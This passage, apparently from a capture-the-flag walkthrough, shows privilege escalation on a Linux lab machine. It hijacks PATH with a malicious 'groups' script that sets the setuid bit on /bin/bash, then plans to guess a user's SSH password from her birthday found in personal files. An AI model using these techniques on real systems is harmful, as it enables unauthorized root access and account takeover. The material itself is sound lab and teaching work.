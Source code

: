 ```
$ /bin/authenticate
roberto developer
You are already a developer.
```

In that binary, it seems like if we're not in the `developer` group, it'll add a new group to `developer`. Otherwise, it'll execute `groups | grep developer`.

**However, the `groups`, `grep`, and `newgrp` command is using relative path, which is can be abused to escalate to root!**

To do so, I'll:

- **Create a new `PATH` environment variable to `/tmp`:**

```
$ cd /tmp
$ export PATH=/tmp:$PATH
```

- Create a malicious `groups` Bash script:

```
$ cat << EOF > groups
> chmod +s /bin/bash
> EOF
$ chmod +x groups
```

- Execute the `/bin/authenticate` binary:

```
$ /bin/authenticate
chmod: changing permissions of '/bin/bash': Operation not permitted
Group updated
```

Hmm...

Let's take a step back.

In our home directory, we saw `importante.txt` file.

**`/home/roberto/importante.txt`:**
```
Jenny will be very happy when she finds out she's been hired :DD

Don't forget that next week she turns 26, when she sees the present I bought her, maybe she'll even be excited to go on a date with me.
```

And in the web application's roberto chat box, his said: "The default password for their accounts in SSH is employee's birthday."

Armed with above information, **we can brute force `jenny`'s password.**

**`jenny` home directory:**
```
$ ls -lah /home
[...]
drwx------  2 jenny   jenny   4.0K Jul 27  2020 jenny
[...]
```
